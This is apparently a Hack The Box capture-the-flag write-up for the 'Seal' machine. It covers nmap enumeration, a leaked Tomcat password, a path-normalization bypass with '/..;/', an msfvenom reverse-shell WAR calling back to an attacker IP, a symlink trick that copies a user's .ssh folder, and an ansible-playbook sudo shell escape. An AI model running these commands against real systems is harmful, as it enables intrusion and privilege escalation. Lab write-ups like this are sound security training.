


<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.250 seal.htb

**nmap scan:**
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:12 GMT
|     Set-Cookie: JSESSIONID=node011404vs9ar3yf13p0bynzm3e473256.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:09 GMT
|     Set-Cookie: JSESSIONID=node0tb9dlbm6phenql9adikr4oaa73254.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 19 Jul 2021 01:58:10 GMT
|     Set-Cookie: JSESSIONID=node0lj0ulchztdazm08pgm1ft1e173255.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
... [snip] ...
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

* Host os is **Ubuntu Focal** from [OpenSSH 8.2p1 Ubuntu 4ubuntu0.2](https://launchpad.net/ubuntu/+source/openssh/1:8.2p1-4ubuntu0.2)
* Get **Hostname:** `seal.htb` from https server ssl certificate.
* Viewing ssl certificate found **Email address:** `admin@seal.htb`

**Port 8080** Running "[GitBucket](https://bitbucket.org/product)"


Create new account and login, found some "root" user repositories


**Information collected from gitbucket repositories**
* Found 2 Users `Infra Admin:alex@seal.htb` and `Core Dev:luis@seal.htb`
  * `alex`
  * `luis`
* `seal_market` repository contains source code for application running on https server.
* From on of the `seal_market` repository commit found **Tomcat credential:** `tomcat:42MrHBf*z8{Z%`
* successfully logged in as user "`luis`" with tomcat password "`42MrHBf*z8{Z%`".
* from nginx config `/root/seal_market/blob/master/nginx/sites-enabled/default`, nginx server worked as a proxy and redirect https server to local tomcat server `/root/seal_market/blob/master/tomcat/server.xml`. 
* From `/root/seal_market/blob/master/nginx/sites-enabled/default`
  * There are 3 locations on the server 
    * Tomcat manager: `/manager/html` and `/host-manager/html`
    * seal_market app admin: `/admin/dashboard`
  * These locations only accessible mutual authentication, There is no registration and login features for accessing.
    * **[Mutual Authentication](https://www.docusign.com/blog/dsdev-mutual-tls-stuff-know):** The TLS handshake Certificate Request message is optionally sent by the server to the client. ... After sending the Certificate Request message and receiving a reply, the server verifies the client's certificate. When verification is successful, the server has authenticated the client.


# Foothold

## server url Parser Logic

This configuration could bypass with `;` because of the Path Normalization bypass flaw.
* [Breaking Parser Logic! By Orange Tsai](https://www.youtube.com/watch?v=CIhHpkybYsY)
* [Tomcat specific](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)

When we send request to a simple nginx server `/test1/../test2` it normalized to `/test2` and if we add anything with `..` like `/..!/` it will not and if we send `/..;/` reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is. Tomcat will threat the sequence `/..;/` as `/../` and normalize the path while.

This can even bypass with `/;/manager/html`



Now, upload malicious war file and get reverse shell

Generate war file
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f war > reverse.war
```

Intercept war file upload request in burp.


edit the url and forward request




# Privesc

## `ansible-playbook` Command with sudo

In `/opt` directory, there is a `run.yml` that creating backup of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory and using `copy_links=yes` parameter and if check [ansible synchronize_module docs](https://docs.ansible.com/ansible/2.3/synchronize_module.html)

**`copy_links`** Copy symlinks as the item that they point to (the referent) is copied, rather than the symlink.


And Two things we already have read access in user "luis" home folder and write access in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`.
```bash
(remote) tomcat@seal:/home$ ls -l 
total 4
drwxr-xr-x 9 luis luis 4096 May  7 07:01 luis
(remote) tomcat@seal:/home$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7 09:26 uploads
```

and user "luis" home folder contains .ssh directory.

we can symlinks `/home/luis/.ssh` in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` and when next backup created it will add `.ssh` directory
```bash
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```


User "luis" can run `/usr/bin/ansible-playbook` as any user with sudo.
```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

and `/usr/bin/ansible-playbook` this symlink to `ansible`
```bash
luis@seal:~$ ls -la /usr/bin/ansible-playbook
lrwxrwxrwx 1 root root 7 Mar 16  2020 /usr/bin/ansible-playbook -> ansible
```

found exploit in [gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/)
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo /usr/bin/ansible-playbook $TF
```


